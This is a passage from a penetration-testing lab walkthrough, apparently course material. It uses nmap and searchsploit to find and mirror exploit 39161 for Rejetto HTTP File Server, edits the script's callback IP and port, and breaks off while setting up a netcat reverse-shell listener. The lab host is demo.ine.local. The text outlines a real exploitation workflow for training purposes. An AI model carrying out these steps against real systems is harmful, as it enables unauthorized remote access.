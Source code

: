 ### Transferring Files To Windows Targets (Demo)

**1. Scanning the Target with Nmap**

First, we scan the target machine to find out if port 80 is open and which service version is running on it.

```bash
nmap -sV -p 80 demo.ine.local
```

----

**2. Searching for Exploits**

Next, we search for available exploits related to the Rejetto HTTP File Server vulnerability using "searchsploit".

```bash
searchsploit rejetto
```

This lists available exploits. We will use exploit **39161**.

---

**3. Mirroring the Exploit**

We copy the exploit script (39161) from the `searchsploit` database to our working directory:

```
searchsploit -m 39161
```

This will download the exploit script to your current directory.

---

**4. Editing the Exploit Script**

We verify that the script has been copied by listing the files in the current directory:

```
ls -als
```

Now, we open the downloaded script `39161.py` using a text editor:

```
vim 39161.py
```

- Modify the **IP address** in the script to the IP of your **Kali Linux** machine.  
- Change the **port** to an available port, such as **1234**.

---

**5. Setting Up a Netcat Listener**

In a new terminal tab, we set up a listener using **Netcat** to catch the incoming reverse shell from the target:
